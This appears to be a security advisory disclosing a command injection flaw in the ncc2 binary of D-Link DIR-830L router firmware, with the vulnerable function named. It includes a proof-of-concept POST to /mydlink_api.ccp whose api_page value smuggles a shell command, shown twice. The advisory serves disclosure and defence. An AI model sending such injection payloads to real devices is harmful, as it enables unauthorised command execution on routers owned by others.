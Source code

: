 # Summary
There is a command injection vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, which can lead to arbitrary command execution.

Fimware download link : https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `callback_ccp_mydlink_api` and `mydlink_api.ccp`.

# Details
In funtion `callback_ccp_mydlink_api` of `sbin/ncc2` binary file:
![image](https://github.com/user-attachments/assets/11df02eb-fcca-4e5c-ab6d-e4de0baf7f3b)

Parameter `api_page` comes from user's input thus is controllable.

Without any filter for `v6`, it is directly concatenated into `_system`, leading to command injection vulnerability.

PoC:
```
POST /mydlink_api.ccp

api_page=;";busybox >/www/poc5.html;%0a"";
```
![image](https://github.com/user-attachments/assets/ce12e62c-f5fa-442d-9826-a2a2f1489683)

After sending the packet, visit `/poc5.html`:
![image](https://github.com/user-attachments/assets/9fcf2f0c-31f4-42ef-9034-a1b24e370e91)


# PoC
**Login** first to get your cookie.
```
POST /mydlink_api.ccp

api_page=;";busybox >/www/poc5.html;%0a"";
```
![image](https://github.com/user-attachments/assets/ce12e62c-f5fa-442d-9826-a2a2f1489683)

After sending the packet, visit `/poc5.html`:
![image](https://github.com/user-attachments/assets/9fcf2f0c-31f4-42ef-9034-a1b24e370e91)
